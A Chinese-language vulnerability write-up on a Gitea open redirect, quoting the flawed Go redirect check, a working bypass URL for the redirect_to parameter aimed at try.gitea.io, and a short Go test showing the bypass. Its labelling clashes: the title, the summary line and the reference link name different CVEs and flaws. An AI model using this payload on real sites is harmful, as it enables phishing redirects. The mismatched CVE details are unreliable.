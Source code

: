# CVE-2022-0415 gitea open redirect

## 漏洞信息

- 漏洞类型：开放式重定向
- 漏洞版本：gitea prior to 1.16.5
- 漏洞简介：文件上传修改.git文件夹，利用sshCommand参数执行命令

## repo介绍
gitea是一个go语言实现的git服务器，目前在github上已经有29.7k个star。

## 漏洞分析
在gitea的登陆页面上，会附加一个`redirect_to`参数来确定成功登陆以后跳转的页面。处理逻辑定位到[这里](https://github.com/go-gitea/gitea/blob/main/modules/context/context.go)处理了跳转的逻辑，对需要跳转的`loc`进行了简单的检查，判断是否存在以当前gitea项目所在的`settings.AppURL`以外的内容，如果是就跳过这个`loc`。
```go
// RedirectToFirst redirects to first not empty URL
func (ctx *Context) RedirectToFirst(location ...string) {
	for _, loc := range location {
		if len(loc) == 0 {
			continue
		}

		u, err := url.Parse(loc)
		if err != nil || ((u.Scheme != "" || u.Host != "") && !strings.HasPrefix(strings.ToLower(loc), strings.ToLower(setting.AppURL))) {
			continue
		}

		ctx.Redirect(loc)
		return
	}

	ctx.Redirect(setting.AppSubURL + "/")
}
```
这里的检测方式可以被绕过。使用如下跳转参数
```
https://try.gitea.io/user/login?redirect_to=/\/\/\/\/\/\/\/\/\/\/\/\/\/\thedailywtf.com
```
这里简单写一段代码做测试
```go
package main

import (
	"fmt"
	"net/url"
	"strings"
)

func main() {
	loc := "/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\thedailywtf.com"
	u, err := url.Parse(loc)
	if err != nil || ((u.Scheme != "" || u.Host != "") && !strings.HasPrefix(strings.ToLower(loc), strings.ToLower("http://try.gitea.io"))) {
		fmt.Println("evil input")
	}
	fmt.Println(u)
}
```
输出内容为
```
/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5Cthedailywtf.com
```
说明成功绕过检测。然后这个url会被返回给浏览器。一部分浏览器在解析时会将这个url理解为
```
//thedailywtf.com
```
导致开放式重定向

## 修复方式
添加了判断，过滤上面出现的情形
![image](images/1.png)

## 参考链接
- https://huntr.dev/bounties/4fb42144-ac70-4f76-a5e1-ef6b5e55dc0d/
- https://nvd.nist.gov/vuln/detail/CVE-2022-1058